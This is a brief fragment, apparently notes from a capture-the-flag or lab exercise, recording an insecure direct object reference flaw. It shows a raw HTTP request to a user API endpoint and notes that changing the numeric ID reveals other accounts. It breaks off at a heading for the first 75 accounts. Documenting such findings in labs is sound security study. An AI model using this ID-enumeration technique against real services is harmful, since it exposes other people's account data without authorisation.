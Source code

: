 found IDOR: 

GET /api.php/user/{4} HTTP/1.1
Host: 94.237.58.3:35906
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.58.3:35906/profile.php
DNT: 1
Connection: close
Cookie: PHPSESSID=7q7gkdbp8ru14sinbavgpfa573; uid=1
Sec-GPC: 1


changing the value of 4 will show diffrent accounts 

first 75 accounts: 
